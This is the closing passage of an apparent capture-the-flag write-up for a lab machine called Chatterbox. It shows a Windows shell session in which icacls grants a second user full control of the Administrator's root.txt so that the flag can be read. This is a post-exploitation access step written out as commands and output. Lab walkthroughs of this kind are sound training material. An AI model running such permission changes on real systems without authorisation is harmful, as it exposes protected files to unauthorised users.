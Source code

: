 ```text
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

Lets try giving Alfred permissions to read the root.txt file:

```text
C:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Alfred:(F)
         CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

Nice! That worked! From here we can go ahead and read root.txt:

![root_flag.png](../assets/chatterbox_assets/root_flag.png)

And that's that! This was somewhat of a tease seeing as we never actually held nt/system permissions on the machine, and this level of access wouldn't qualify for an exam like OSCP, but it was an interesting way to reach the flag nonetheless. 

Thanks for following along!

-Ryan

---------------------------------------------------------------
